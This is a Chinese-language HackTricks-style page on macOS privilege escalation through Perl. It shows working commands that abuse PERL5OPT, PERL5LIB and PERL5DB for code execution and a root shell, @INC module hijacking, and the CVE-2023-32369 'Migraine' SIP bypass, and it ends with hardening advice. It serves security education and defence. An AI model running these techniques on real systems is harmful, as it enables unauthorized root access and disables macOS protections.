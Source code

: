 # macOS Perl Applications Injection

{{#include ../../../banners/hacktricks-training.md}}

## 通过 `PERL5OPT` 和 `PERL5LIB` 环境变量

使用环境变量 **`PERL5OPT`**，可以在解释器启动时（甚至在解析目标脚本的第一行之前）使 **Perl** 执行任意命令。
例如，创建这个脚本：
```perl:test.pl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
现在**导出环境变量**并执行**perl**脚本：
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
另一个选项是创建一个 Perl 模块（例如 `/tmp/pmod.pm`）：
```perl:/tmp/pmod.pm
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
然后使用环境变量，以便模块能够自动定位和加载：
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod perl victim.pl
```
### 其他有趣的环境变量

* **`PERL5DB`** – 当解释器以 **`-d`**（调试器）标志启动时，`PERL5DB` 的内容会作为 Perl 代码在调试器上下文中执行。如果你可以影响特权 Perl 进程的环境 **和** 命令行标志，你可以做如下操作：

```bash
export PERL5DB='system("/bin/zsh")'
sudo perl -d /usr/bin/some_admin_script.pl   # 在执行脚本之前会打开一个 shell
```

* **`PERL5SHELL`** – 在 Windows 上，此变量控制 Perl 在需要生成 shell 时将使用哪个 shell 可执行文件。这里提到它只是为了完整性，因为在 macOS 上它并不相关。

尽管 `PERL5DB` 需要 `-d` 开关，但常见的维护或安装脚本以 *root* 身份执行时会启用此标志以进行详细故障排除，使该变量成为有效的提升向量。

## 通过依赖项（@INC 滥用）

可以通过运行以下命令列出 Perl 将搜索的包含路径 (**`@INC`**)：
```bash
perl -e 'print join("\n", @INC)'
```
在 macOS 13/14 上的典型输出如下：
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
一些返回的文件夹甚至不存在，然而 **`/Library/Perl/5.30`** 确实存在，*不*受 SIP 保护，并且在 SIP 保护的文件夹之前。因此，如果你可以以 *root* 身份写入，你可以放置一个恶意模块（例如 `File/Basename.pm`），该模块将被任何导入该模块的特权脚本 *优先* 加载。

> [!WARNING]
> 你仍然需要 **root** 权限才能写入 `/Library/Perl`，macOS 会显示一个 **TCC** 提示，要求为执行写入操作的进程提供 *完全磁盘访问* 权限。

例如，如果一个脚本导入 **`use File::Basename;`**，则可以创建 `/Library/Perl/5.30/File/Basename.pm`，其中包含攻击者控制的代码。

## 通过迁移助手绕过 SIP (CVE-2023-32369 “Migraine”)

在 2023 年 5 月，微软披露了 **CVE-2023-32369**，昵称为 **Migraine**，这是一种后期利用技术，允许 *root* 攻击者完全 **绕过系统完整性保护 (SIP)**。
易受攻击的组件是 **`systemmigrationd`**，这是一个具有 **`com.apple.rootless.install.heritable`** 权限的守护进程。该守护进程生成的任何子进程都继承该权限，因此在 SIP 限制之外运行。

研究人员识别出的子进程中包括 Apple 签名的解释器：
```
/usr/bin/perl /usr/libexec/migrateLocalKDC …
```
因为 Perl 尊重 `PERL5OPT`（而 Bash 尊重 `BASH_ENV`），污染守护进程的 *环境* 足以在没有 SIP 的上下文中获得任意执行：
```bash
# As root
launchctl setenv PERL5OPT '-Mwarnings;system("/private/tmp/migraine.sh")'

# Trigger a migration (or just wait – systemmigrationd will eventually spawn perl)
open -a "Migration Assistant.app"   # or programmatically invoke /System/Library/PrivateFrameworks/SystemMigration.framework/Resources/MigrationUtility
```
当 `migrateLocalKDC` 运行时，`/usr/bin/perl` 会在恶意的 `PERL5OPT` 下启动，并在 SIP 被重新启用之前执行 `/private/tmp/migraine.sh`。通过该脚本，你可以，例如，将有效负载复制到 **`/System/Library/LaunchDaemons`** 中，或分配 `com.apple.rootless` 扩展属性以使文件 **不可删除**。

苹果在 macOS **Ventura 13.4**、**Monterey 12.6.6** 和 **Big Sur 11.7.7** 中修复了该问题，但较旧或未修补的系统仍然可以被利用。

## 加固建议

1. **清除危险变量** – 特权的 launchdaemons 或 cron 作业应在干净的环境中启动（`launchctl unsetenv PERL5OPT`，`env -i` 等）。
2. **避免以 root 身份运行解释器**，除非绝对必要。使用编译的二进制文件或尽早降低权限。
3. **使用 `-T`（污点模式）对供应商脚本进行处理**，以便 Perl 在启用污点检查时忽略 `PERL5OPT` 和其他不安全的开关。
4. **保持 macOS 更新** – “Migraine” 在当前版本中已完全修补。

## 参考文献

- Microsoft Security Blog – “新的 macOS 漏洞 Migraine 可能绕过系统完整性保护”（CVE-2023-32369），2023年5月30日。
- Hackyboiz – “macOS SIP 绕过（PERL5OPT 和 BASH_ENV）研究”，2025年5月。

{{#include ../../../banners/hacktricks-training.md}}
